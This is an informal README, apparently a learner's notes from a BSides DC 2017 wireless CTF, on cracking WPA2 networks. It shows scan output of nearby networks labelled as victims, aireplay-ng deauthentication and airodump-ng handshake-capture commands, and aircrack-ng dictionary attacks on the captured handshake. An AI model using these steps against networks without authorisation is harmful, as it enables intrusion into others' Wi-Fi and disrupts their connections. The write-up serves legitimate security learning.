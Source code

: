 # How to haxx0r WPA!!
![BSides DC 2017](wirelessvillage.png?raw=true "My first wireless CTF ever!")

## Introduction
This is a very rough draft explaining the commands I used to crack my first WPA
network.  I created this file mostly for my benefit as I was learning, but I
figured it may save someone else out there someday from having to regrok more
manpages.  (To the aircrack guys' credit, their manpages are excellently
written.)  I will publish my full cracking scripts at a later date.

## Find victim network
I made a horrible Bash abomination simply called `scanner` (please don't laugh)
that produces easier-to-read iwlist output which you can use or not use (I don't
care).

```
$ ./scanner # Find a victim network
          Cell 01 - Address: 70:3A:CB:F0:ED:CD
                    Channel:11
                    Frequency:2.462 GHz (Channel 11)
                    Quality=34/70  Signal level=-76 dBm
                    Encryption key:on
                    ESSID:"Middleton"
                    IE: IEEE 802.11i/WPA2 Version 1
                        Group Cipher : CCMP
                        Pairwise Ciphers (1) : CCMP
                        Authentication Suites (1) : PSK
          Cell 02 - Address: 72:3A:CB:F0:ED:CC
                    Channel:11
                    Frequency:2.462 GHz (Channel 11)
                    Quality=35/70  Signal level=-75 dBm
                    Encryption key:on
                    ESSID:"Guest-Middleton"
                    IE: IEEE 802.11i/WPA2 Version 1
                        Group Cipher : CCMP
                        Pairwise Ciphers (1) : CCMP
                        Authentication Suites (1) : PSK
          Cell 03 - Address: 70:3A:CB:F0:ED:80
                    Channel:11
                    Frequency:2.462 GHz (Channel 11)
                    Quality=24/70  Signal level=-86 dBm
                    Encryption key:on
                    ESSID:"Middleton"
                    IE: IEEE 802.11i/WPA2 Version 1
                        Group Cipher : CCMP
                        Pairwise Ciphers (1) : CCMP
                        Authentication Suites (1) : PSK
          Cell 04 - Address: F8:7B:8C:20:F8:EF
                    Channel:6
                    Frequency:2.437 GHz (Channel 6)
                    Quality=36/70  Signal level=-74 dBm
                    Encryption key:on
                    ESSID:"Home Wi-Fi 2.5Ghz"
                    IE: WPA Version 1
                        Group Cipher : CCMP
                        Pairwise Ciphers (1) : CCMP
                        Authentication Suites (1) : PSK
                    IE: IEEE 802.11i/WPA2 Version 1
                        Group Cipher : CCMP
                        Pairwise Ciphers (1) : CCMP
                        Authentication Suites (1) : PSK
          Cell 05 - Address: 72:3A:CB:F0:ED:80
                    Channel:11
                    Frequency:2.462 GHz (Channel 11)
                    Quality=23/70  Signal level=-87 dBm
                    Encryption key:on
                    ESSID:"Guest-Middleton"
                    IE: IEEE 802.11i/WPA2 Version 1
                        Group Cipher : CCMP
                        Pairwise Ciphers (1) : CCMP
                        Authentication Suites (1) : PSK
```

Once a target has been sighted, you can make a little text file for reference:

```
$ ./scanner Guest-Middleton | tee victim_network-info.txt
          Cell 02 - Address: 72:3A:CB:F0:ED:CC
                    Channel:11
                    Frequency:2.462 GHz (Channel 11)
                    Quality=35/70  Signal level=-75 dBm
                    Encryption key:on
                    ESSID:"Guest-Middleton"
                    IE: IEEE 802.11i/WPA2 Version 1
                        Group Cipher : CCMP
                        Pairwise Ciphers (1) : CCMP
                        Authentication Suites (1) : PSK
--
          Cell 05 - Address: 72:3A:CB:F0:ED:80
                    Channel:11
                    Frequency:2.462 GHz (Channel 11)
                    Quality=26/70  Signal level=-84 dBm
                    Encryption key:on
                    ESSID:"Guest-Middleton"
                    IE: IEEE 802.11i/WPA2 Version 1
                        Group Cipher : CCMP
                        Pairwise Ciphers (1) : CCMP
                        Authentication Suites (1) : PSK
```

If your victim info gets lost in the scrollback you can use
`cat victim_network-info.txt` or `less victim_network-info.txt` anytime.

## Get some handshakes
You may have to get closer to the victim network in order to get a full hanshake.  Note the `Signal level` portion of the `iwlist` or `scanner` output.

Note that `iwconfig` may no longer work in the future, so you may have to set your channel with a different tool.

```
iwlist [CARD] scan
iwconfig [CARD] channel [CHANNEL_NUM]
aireplay-ng -0 2 -a [BSSID] [CARD]
airodump-ng --output-format pcap -w capshur -c [CHANNEL] [CARD]
wpaclean [OUTFILE] [INFILE(s)]
```

For the best results, run the `aireplay-ng` line and the `airodump-ng` line
on separate wireless cards.  Run the dump command on the card with the highest
gain antenna.

## Get crackin'
You now should have your handshake if you did the previous steps right.  You
now must crack it to uncover the pre-shared key (PSK).  You can use a bute-force attack, a dictionary attack, or a hybrid of the two.

### Pure Butal
```
wpapcap2john + JtR
aircrack-ng + hashcat
```

### A Basic Dictionary Attack
```
aircrack-ng -s -l wctf_05.psk -w super.words -e WCTF_05 superclean.cap
aircrack-ng -s -l [KEY OUTFILE] -w [WORDLIST] -e [ESSID] [CAPFILE]
```

### Hybrid
Read the John and Hashcat manpages for more info on how to carry out their
respective hybrid attacks.
